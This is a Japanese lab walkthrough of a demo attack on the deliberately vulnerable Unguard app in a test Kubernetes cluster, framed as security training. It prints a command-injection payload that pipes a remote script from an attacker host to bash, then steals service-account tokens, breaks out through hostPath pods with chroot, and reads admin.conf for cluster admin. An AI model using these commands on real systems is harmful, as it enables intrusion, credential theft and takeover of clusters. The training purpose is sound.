







# 攻撃シナリオ（デモ）

<span style="color:red">**本シナリオはセキュリティの学習を目的としたコンテンツであり、悪用は厳禁です。**</span>

---

アプリケーションの脆弱性を利用してコンテナに侵入し、Kubernetes の Admin 権限の取得を目指します。

以下は演習環境の簡単な構成図です。



1. コマンドインジェクションによるコンテナ侵入
2. コンテナ内の探索と攻撃準備
3. 攻撃用コンテナ作成
4. コンテナブレイクアウトによるワーカーノード侵入
5. ワーカーノード内の情報収集
6. コントロールプレーンへの侵入
7. Kubernetes クラスタの Admin 権限取得

※ 本シナリオのコマンド例では、コマンドがどこで実行されているのか理解しやすいように、実行場所をプロンプトで表現してます。

## コマンドインジェクションによるコンテナ侵入

ここではイメージ投稿機能にあるコマンドインジェクションを利用し、コンテナに侵入します。

https://github.com/dynatrace-oss/unguard/blob/main/exploit-toolkit/exploits/cmd-injection/CMDI-IMAGE-POSTING.md

EC2 のローカル環境を攻撃サーバーに見立て、リバースシェルで待ち受けます。

```bash
[attack-server]: ./curlshell.py --listen-port 1234
```

Web UI 上で、「Share Image」タブのURL入力欄に以下を入力して投稿します。IPアドレスにはEC2のプライベートIPアドレスを入力してください。

```bash
example.com && curl http://10.99.0.227:1234 | bash #
```



画面上は処理がフリーズして見えますが、攻撃サーバーでシェルを取ることに成功しています。

```bash
[unguard-proxy-service]: cat /etc/hostname
unguard-proxy-service-5b84d8dd85-xz2rr
```



## コンテナ内の探索と攻撃準備

`unguard-proxy-service` コンテナには、Pod の作成と Exec の権限が付与されています。この権限を使ってクラスタの探索をしてみましょう。

まずは準備としてコンテナ内に `kubectl` をダウンロードします。

```bash
[unguard-proxy-service]: cd /tmp/
[unguard-proxy-service]: curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
[unguard-proxy-service]: chmod +x kubectl
```

次にコンテナ内に保存されているサービスアカウントのクレデンシャルから `kubeconfig` ファイルを作成します。

```bash
[unguard-proxy-service]: echo "
apiVersion: v1
kind: Config
clusters:
- name: default-cluster
  cluster:
    certificate-authority-data: $(cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt | base64 -w 0)
    server: https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}
contexts:
- name: default-context
  context:
    cluster: default-cluster
    namespace: $(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
    user: default-user
current-context: default-context
users:
- name: default-user
  user:
    token: $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
" > kubeconfig
```

作成した `kubeconfig` を指定し、`kubectl` で Kubernetes API サーバーにアクセスできるようになりました。

```bash
[unguard-proxy-service]: ./kubectl auth whoami --kubeconfig kubeconfig
ATTRIBUTE                                           VALUE
Username                                            system:serviceaccount:unguard:unguard-proxy
UID                                                 e56b64e1-4415-4ee8-9cdf-78026924a7e5
Groups                                              [system:serviceaccounts system:serviceaccounts:unguard system:authenticated]
Extra: authentication.kubernetes.io/credential-id   [JTI=2b76b98d-e185-4970-918e-6fa3f30606ab]
Extra: authentication.kubernetes.io/node-name       [kind-worker2]
Extra: authentication.kubernetes.io/node-uid        [52c81fbd-d2e9-4c7a-b45f-89df2615076b]
Extra: authentication.kubernetes.io/pod-name        [unguard-proxy-service-5b84d8dd85-xz2rr]
Extra: authentication.kubernetes.io/pod-uid         [adbcb431-1ba9-4022-b222-a5ba02534005]

[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig | grep unguard
NAME                                          READY   STATUS      RESTARTS      AGE
unguard-ad-service-66777c45b4-99qqr           1/1     Running     0             2d16h
unguard-envoy-proxy-7857f57b8d-455zv          1/1     Running     0             2d16h
unguard-frontend-7f4db8769f-qft7j             1/1     Running     0             2d16h
unguard-like-service-994749656-x2vtr          1/1     Running     0             2d16h
unguard-mariadb-0                             1/1     Running     0             2d16h
unguard-membership-service-79d7968bf6-kb4dq   1/1     Running     0             2d16h
unguard-microblog-service-7dd99fbf6f-bcps8    1/1     Running     0             2d16h
unguard-payment-service-658bfc596-p6v8x       1/1     Running     0             2d16h
unguard-profile-service-599f98869d-z7lcm      1/1     Running     0             2d16h
unguard-proxy-service-5b84d8dd85-xz2rr        1/1     Running     0             2d16h
unguard-redis-5cb7cd99d7-4q48k                1/1     Running     0             2d16h
unguard-status-service-85fdc644bd-764bl       1/1     Running     0             2d16h
unguard-user-auth-service-dbf55bb5b-4pv7f     1/1     Running     0             2d16h

[unguard-proxy-service]: ./kubectl get po -A --kubeconfig kubeconfig
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:unguard:unguard-proxy" cannot list resource "pods" in API group "" at the cluster scope

[unguard-proxy-service]: ./kubectl get no --kubeconfig kubeconfig
Error from server (Forbidden): nodes is forbidden: User "system:serviceaccount:unguard:unguard-proxy" cannot list resource "nodes" in API group "" at the cluster scope
```

このコンテナの持つ権限では、`unguard` namespace の Pod は取得できますが、クラスタ全体のPod は取得できません。またノードの情報も取得できません。

## 攻撃用コンテナ作成

さらなる権限を得るため、クラスタに攻撃用コンテナの作成を試みます。

```bash
[unguard-proxy-service]: echo '
apiVersion: v1
kind: Pod
metadata:
  name: attack-pod-1
  namespace: unguard
spec:
  containers:
  - name: ubuntu-container
    image: ubuntu
    command: ["sleep", "infinity"]
    volumeMounts:
    - name: host-system
      mountPath: /host-system
  volumes:
  - name: host-system
    hostPath:
      path: /
      type: Directory
' > pod.yaml
```

Pod のマニフェストファイルを作成し、クラスタにデプロイします。

```bash
[unguard-proxy-service]: ./kubectl apply -f pod.yaml --kubeconfig kubeconfig
pod/attack-pod-1 created

[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
attack-pod-1                                  1/1     Running     0          9s     10.0.0.16    kind-worker          <none>           <none>
```



## コンテナブレイクアウトによるワーカーノード侵入

作成した Pod の ubuntu コンテナに Exec します。

```bash
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-1 -- bash

[attack-pod-1]: cat /etc/hostname
attack-pod-1
```

作成した Pod にはノードのルートパスをマウントしているため、コンテナ内からノードのファイルを操作することができます。

```
[attack-pod-1]: ls /
bin  boot  dev  etc  home  host-system  lib  lib64  media  mnt  opt  proc  product_name  product_uuid  root  run  sbin  srv  sys  tmp  usr  var

[attack-pod-1]: ls /host-system
LICENSES  bin  boot  dev  etc  home  kind  lib  lib64  media  mnt  opt  proc  procHost  root  run  sbin  srv  sys  tmp  usr  var

[attack-pod-1]: chroot /host-system bash

[worker-node]: cat /etc/hostname
kind-worker
```

コンテナからワーカーノードに侵入することはできました。
しかしワーカーノードには Kubernetes の Admin 権限を取得する方法がありません。

Admin を得るため、どうにかしてコントロールプレーンのノードに侵入する必要があります。



## ワーカーノード内の情報収集

ワーカーノードに侵入できたので、ノードに存在するコンテナの情報を取得できるようになりました。

```bash
[worker-node]: cd /tmp/

[worker-node]: crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                     ATTEMPT             POD ID              POD
ac0cbeb7e17a2       35a88802559dd       7 minutes ago       Running             ubuntu-container         0                   a021011afd94a       attack-pod-1
186aa6e43bacf       308d834383594       37 hours ago        Running             unguard-user-simulator   0                   26cc1931d4968       unguard-user-simulator-28717860-sb9gt
4b85a71f357e9       ecd074983f414       2 days ago          Running             tetragon                 1                   0bc3a75e97cb4       tetragon-7pgpm
9280e4f6f7f8f       aebfd554d3483       2 days ago          Running             cilium-agent             0                   263d17014d39e       cilium-ncsp5
c66ea67e0dfae       acc4836f7b346       2 days ago          Running             export-stdout            0                   0bc3a75e97cb4       tetragon-7pgpm
ea8ebbf152619       b5adf140fb488       2 days ago          Running             cilium-operator          0                   d3c548eb7aee7       cilium-operator-9bfb5ffbd-klbnf
```

`cilium-agent` はノードの情報を取得する権限を持っています。`cilium-agent` のクレデンシャルを使って、コントロールプレーンのノード情報を取得しましょう。

```bash
[worker-node]: crictl inspect 9280e4f6f7f8f | grep -A 2 -m 1 /var/run/secrets/kubernetes.io/serviceaccount
        "containerPath": "/var/run/secrets/kubernetes.io/serviceaccount",
        "gidMappings": [],
        "hostPath": "/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66",

[worker-node]: sa_path=/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66

[worker-node]: echo "
apiVersion: v1
kind: Config
clusters:
- name: default-cluster
  cluster:
    certificate-authority-data: $(cat ${sa_path}/ca.crt | base64 -w 0)
    server: https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}
contexts:
- name: default-context
  context:
    cluster: default-cluster
    namespace: $(cat ${sa_path}/namespace)
    user: default-user
current-context: default-context
users:
- name: default-user
  user:
    token: $(cat ${sa_path}/token)
" > kubeconfig
```

作成した `kubeconfig` を指定して `kubectl` を実行することで、ノード情報が取得できました。

```bash
[worker-node]: kubectl auth whoami --kubeconfig kubeconfig
ATTRIBUTE                                           VALUE
Username                                            system:serviceaccount:kube-system:cilium
UID                                                 42c7c936-2548-49ef-82b9-60c502999366
Groups                                              [system:serviceaccounts system:serviceaccounts:kube-system system:authenticated]
Extra: authentication.kubernetes.io/credential-id   [JTI=cc2f990d-f2df-4aa0-b088-bed1abf74ec6]
Extra: authentication.kubernetes.io/node-name       [kind-worker]
Extra: authentication.kubernetes.io/node-uid        [49d432cd-bafe-4c4f-9976-e221b69a17a5]
Extra: authentication.kubernetes.io/pod-name        [cilium-ncsp5]
Extra: authentication.kubernetes.io/pod-uid         [ab46f469-a60c-4588-9d21-3a713174b101]

[worker-node]: kubectl get no --kubeconfig kubeconfig
NAME                 STATUS   ROLES           AGE     VERSION
kind-control-plane   Ready    control-plane   2d15h   v1.30.0
kind-worker          Ready    <none>          2d15h   v1.30.0
kind-worker2         Ready    <none>          2d15h   v1.30.0

[worker-node]: kubectl get no --kubeconfig kubeconfig kind-control-plane -o yaml
apiVersion: v1
kind: Node
metadata:
  annotations:
    kubeadm.alpha.kubernetes.io/cri-socket: unix:///run/containerd/containerd.sock
    node.alpha.kubernetes.io/ttl: "0"
    volumes.kubernetes.io/controller-managed-attach-detach: "true"
  creationTimestamp: "2024-08-06T20:10:47Z"
  labels:
    beta.kubernetes.io/arch: amd64
    beta.kubernetes.io/os: linux
    ingress-ready: "true"
    kubernetes.io/arch: amd64
    kubernetes.io/hostname: kind-control-plane
    kubernetes.io/os: linux
    node-role.kubernetes.io/control-plane: ""
    node.kubernetes.io/exclude-from-external-load-balancers: ""
  name: kind-control-plane
  resourceVersion: "495712"
  uid: 6666d694-9ad6-4b0f-88b0-c9ed5484a2dd
spec:
  podCIDR: 10.244.0.0/24
  podCIDRs:
  - 10.244.0.0/24
  providerID: kind://docker/kind/kind-control-plane
  taints:
  - effect: NoSchedule
    key: node-role.kubernetes.io/control-plane
status:
...
```

ノードのラベルと `Taints` の情報を得られました。これらを使えばコントロールプレーンに攻撃用コンテナを作成できます。

再び `unguard-proxy-service` の権限を利用するため、ワーカーノードから `unguard-proxy-service` コンテナ内に戻ります。

```bash
[worker-node]: exit

[attack-pod-1]: exit

[unguard-proxy-service]: cat /etc/hostname
unguard-proxy-service-5b84d8dd85-xz2rr

```

## コントロールプレーンへの侵入

コントロールプレーンにデプロイするための Pod マニフェストを用意します。

```bash
[unguard-proxy-service]: echo '
apiVersion: v1
kind: Pod
metadata:
  name: attack-pod-2
  namespace: unguard
spec:
  nodeSelector:
    node-role.kubernetes.io/control-plane: ""
  containers:
  - name: ubuntu-container
    image: ubuntu
    command: ["sleep", "infinity"]
    volumeMounts:
    - name: host-system
      mountPath: /host-system
  tolerations:
  - effect: NoSchedule
    key: node-role.kubernetes.io/control-plane
    operator: Exists
  volumes:
  - name: host-system
    hostPath:
      path: /
      type: Directory
' > pod2.yaml
```

Pod をデプロイすると、想定通りコントロールプレーンで立ち上がりました。

```bash
[unguard-proxy-service]: ./kubectl apply -f pod2.yaml --kubeconfig kubeconfig
pod/attack-pod-2 created

[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
attack-pod-1                                  1/1     Running     1 (18m ago)   15m     10.0.0.16    kind-worker          <none>           <none>
attack-pod-2                                  1/1     Running     1 (16m ago)   6m      10.0.2.97    kind-control-plane   <none>           <none>
```

ワーカーノードの時と同様に攻撃用コンテナに Exec し、ノードのファイル操作ができる状態にします。

```bash
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-2 -- bash

[attack-pod-2]: cat /etc/hostname
attack-pod-2

[attack-pod-2]: ls /
bin  boot  dev  etc  home  host-system  lib  lib64  media  mnt  opt  proc  product_name  product_uuid  root  run  sbin  srv  sys  tmp  usr  var

[attack-pod-2]: chroot /host-system bash

[control-plane]: cat /etc/hostname
kind-control-plane
```



## Kubernetes クラスタの Admin 権限取得

コントロールプレーンにはクラスタコンポーネントが認証に利用するさまざまなファイルが配置されています。今回はクラスタ構築時に kubeadm が利用する `admin.conf` を使い、Kubernetes の Admin 権限を取得することができました。

```bash
[control-plane]: ls /etc/kubernetes/
admin.conf  controller-manager.conf  kubelet.conf  manifests  pki  scheduler.conf  super-admin.conf

[control-plane]: kubectl auth whoami --kubeconfig /etc/kubernetes/admin.conf
Username    kubernetes-admin
Groups      [kubeadm:cluster-admins system:authenticated]

[control-plane]: kubectl get pod -A --kubeconfig /etc/kubernetes/admin.conf
AMESPACE            NAME                                                    READY   STATUS      RESTARTS        AGE
ingress-nginx        ingress-nginx-controller-74fd566899-zlrcx               1/1     Running     0               2d18h
kube-system          cilium-bxwpv                                            1/1     Running     0               2d18h
kube-system          cilium-j44r4                                            1/1     Running     0               2d18h
kube-system          cilium-ncsp5                                            1/1     Running     0               2d18h
kube-system          cilium-operator-9bfb5ffbd-klbnf                         1/1     Running     0               2d18h
kube-system          cilium-operator-9bfb5ffbd-wrspt                         1/1     Running     0               2d18h
kube-system          coredns-7db6d8ff4d-8f4ph                                1/1     Running     0               2d18h
...
```


